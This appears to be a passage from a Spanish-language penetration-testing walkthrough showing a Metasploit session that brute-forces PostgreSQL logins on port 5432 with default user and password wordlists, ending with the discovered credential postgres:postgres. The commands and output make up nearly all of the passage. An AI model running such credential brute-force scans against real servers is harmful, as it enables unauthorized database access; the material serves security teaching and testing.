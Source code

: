 ```bash
msf6 > use auxiliary/scanner/postgres/postgres_login
[*] New in Metasploit 6.4 - The CreateSession option within this module can open an interactive session
msf6 auxiliary(scanner/postgres/postgres_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt
msf6 auxiliary(scanner/postgres/postgres_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt
msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 198.0.2.6
RHOSTS => 198.0.2.6
msf6 auxiliary(scanner/postgres/postgres_login) > set RPORT 5432
RPORT => 5432
msf6 auxiliary(scanner/postgres/postgres_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 198.0.2.6:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[+] 198.0.2.6:5432 - Login Successful: postgres:postgres@template1
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Bruteforce completed, 1 credential was successful.
[*] You can open a Postgres session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```

Como resultado hemos encontrado una credencial válida para el servidor PostgreSQL objetivo:

- Usuario: postgres
- Contraseña: postgres
